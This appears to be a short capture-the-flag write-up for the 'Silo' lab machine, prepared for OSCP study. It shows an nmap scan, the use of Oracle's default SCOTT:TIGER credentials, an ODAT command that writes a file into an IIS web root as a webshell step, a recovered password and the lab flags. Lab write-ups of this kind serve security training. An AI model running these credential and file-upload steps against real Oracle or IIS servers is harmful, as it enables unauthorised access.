 # SILO / OSCP PREP

![](../.gitbook/assets/6e6a0b49a63a4b45b52b6d5cd54ac8f6.png)

## NMAP SCAN

```text
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   syn-ack ttl 127 Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  oracle-tns   syn-ack ttl 127 Oracle TNS listener (requires service name)
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49161/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49162/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 1521 ORACLE

![](../.gitbook/assets/05d6252717bf4e358cda74c36c27b968.png)

```text
https://github.com/quentinhardy/odat

https://dastinia.io/tutorial/2018/07/31/installing-oracle-database-attacking-tool-on-kali/
```

#### DEFAULT CREDENTIALS

```text
SCOTT:TIGER
```

#### LOGIN

![](../.gitbook/assets/63400186788b4dda993ba13b1c03babb.png)

### UPLOAD WEBSHELL

```text
odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)
```

![](../.gitbook/assets/cd602f00ac404cc4a84e2d0d2d9616a4.png)

![](../.gitbook/assets/edd372dda7574bf49fbb759951f01de0.png)

## PRIVESC

![](../.gitbook/assets/668a4beac97a40da819867162dcf31ae.png)

```text
£%Hm8646uC$
```

![](../.gitbook/assets/70c6b5e81f79439295aa3d8f3249ced8.png)

![](../.gitbook/assets/a64cac93df234ba08856eb2c18b2cf4c.png)

## FLAGS

### USER

```text
92ede778a1cc8d27cb6623055c331617
```

### ROOT

```text
cd39ea0af657a495e33bc59c7836faf6
```

